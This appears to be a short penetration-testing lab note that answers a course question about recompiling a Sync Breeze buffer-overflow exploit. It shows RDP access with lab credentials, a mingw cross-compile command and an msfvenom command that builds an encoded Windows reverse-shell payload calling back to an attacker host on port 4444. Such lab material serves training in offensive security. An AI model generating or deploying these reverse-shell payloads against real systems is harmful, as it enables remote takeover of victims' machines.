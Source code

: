 4. Recompile the exploit and use Wireshark to confirm that the code successfully initiates a socket connection to your dedicated Windows client. Run the exploit by issuing the _wine_ command before the file. Which C function in the code is used to convert the port number into network byte order?
```bash
# IP: 192.168.113.10

# RDP to the windows host
xfreerdp /v:192.168.113.10 /u:offsec /p:lab /dynamic-resolution /drive:/usr/share/Kali,.

# Updating the exploit with the right values
	# Port: 9121
	# IP: 192.168.113.10
	
# Compiling the exploit
i686-w64-mingw32-gcc exploit.c -o syncbreeze_exploit.exe -lws2_32

# Creating a MSF 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.208 LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
